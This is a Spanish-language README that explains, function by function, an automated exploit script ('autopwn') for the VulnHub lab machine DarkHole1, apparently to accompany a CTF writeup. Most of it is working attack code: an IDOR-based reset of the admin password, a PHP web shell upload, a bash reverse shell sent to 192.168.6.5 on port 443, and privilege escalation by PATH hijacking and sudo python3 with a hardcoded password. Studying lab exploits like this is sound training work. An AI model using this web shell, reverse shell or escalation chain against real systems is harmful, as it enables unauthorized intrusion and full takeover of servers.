 # Autopwn - DarkHole1

En caso de no haber realizado la máquina DarkHole1, es recomendable revisar el [writeup](http://mrpr1ngl3s.github.io/vulnhub/darkhole1/ ) para comprender el autopwn.

<p align="center">
	<img src="Img/Autopwn-DarkHole1.png"
		alt="autopwn"
	style="float: left; margin-right: 10px;" />
</p>

# Funcionamiento

En esta primera parte de código lo que realiza el script es la creación de un nuevo usuario, esto suponiendo que no se ha creado previamente otro, para no modificar el ID de la URL donde se cambia la contraseña “dashboard.php?id=2”

```python
def Register():

	data_post = {
		"username": "pr1ngl3s",
		"email": "pr1ngl3s@pr1ngl3s.com",
		"password": "pr1ngl3s"
	}

	r = requests.post(register_url, data=data_post)
```
La siguiente función con nombre "Login" se autentica con las credenciales enviadas con el método POST y para luego acceder a la URL del cambio de contraseña se utiliza el "session" para arrastrar la sesión y poder acceder.

```python
s = requests.session()
```

```python
def Login(username="admin",password="admin"):
	data_post = {
		"username": username,
		"password": password
	}

	r = s.post(login_url, data=data_post)
```

Para llamar a esa función se envía el nombre del usuario y la contraseña, por defecto es la misma "admin", ya que es la nueva contraseña que le pondremos a ese usuario, y lo ponemos por default para reutilizar la función en la parte de acceso como el usuario "admin"

```python
Login("pr1ngl3s","pr1ngl3s")
```

Para cambiar la contraseña se ejecuta la funcion "ChangePass" que envía la nueva contraseña que queremos que tenga, y el ID del usuario al cual se le quiere cambiar, en este caso es al usuario "admin" enviándolo con el método post y para poder acceder arrastramos la sesión con "session"

```python
def ChangePass():
    data_post = {
        "password": "admin",
        "id": "1"
    }

    r = s.post(main_url, data=data_post)
```

Ahora habiendo cambiado la contraseña al usuario "admin" accedemos como este reutilizando la función "Login" pero ahora sin enviar ningún valor a la llamada para que pille las de default, para arrastrar esa sesión y acceder al apartado de subida de archivos.

```python
Login()
```

Para subir el archivo, lo primero que hace el script es ejecuta la función 'MakeFile', la cual abre el archivo con permisos de escritura para añadir el contenido PHP necesario.

```python
def MakeFile():
	content = "<?php\n\tsystem($_GET['cmd']);\n?>"

	with open(file, "w") as archivo:
		archivo.write(content)
```

Luego la función 'UploadFile' abre el archivo en modo lectura binaria y el contenido con el nombre 'fileToUpload' lo envía a una solicitud POST arrastrando la sesión.

```python
def UploadFile():
	with open(file, "rb") as fupload:
		files = {"fileToUpload": fupload}

		r = s.post(upload_url,files=files)
```

Con el archivo ya subido accede a la URL que contiene el contenido de este, ejecutando la función "GetShell" por el método GET donde a nivel de parámetro está el payload que envía la shell inversa.

```python
def GetShell():
	url = "http://%s/upload/%s" % (IP,file)

	payload = {
		"cmd": "bash -c 'bash -i >& /dev/tcp/192.168.6.5/443 0>&1'"
	}

	r = requests.get(url,params=payload)
```

Pero ejecuta esa función en segundo plano, ya que para recibir la shell inversa debe estar primero en escucha por un puerto.

```python
multiprocessing.Process(target=GetShell).start()
```
Se pone en escucha durante 5 segundos y en ese tiempo, si recibe una petición, ejecuta de forma automática todos los pasos que se necesitan para realizar la escalada de privilegios.

```python
with listen(lport,timeout=5) as shell:
		if shell.wait_for_connection():
			shell.sendline("cd /home/john".encode('utf-8'))
			shell.sendline("echo 'bash' > /tmp/id".encode('utf-8'))
			shell.sendline("chmod +x /tmp/id".encode('utf-8'))
			shell.sendline("export PATH=/tmp:$PATH".encode('utf-8'))
			shell.sendline("./toto".encode('utf-8'))
			shell.sendline("echo '#!/usr/bin/python3\nimport os\nos.system(\"bash\")' > file.py".encode('utf-8'))
			shell.sendline("sudo -S /usr/bin/python3 /home/john/file.py".encode('utf-8'))
			shell.sendline("root123".encode('utf-8'))
			shell.interactive()
```




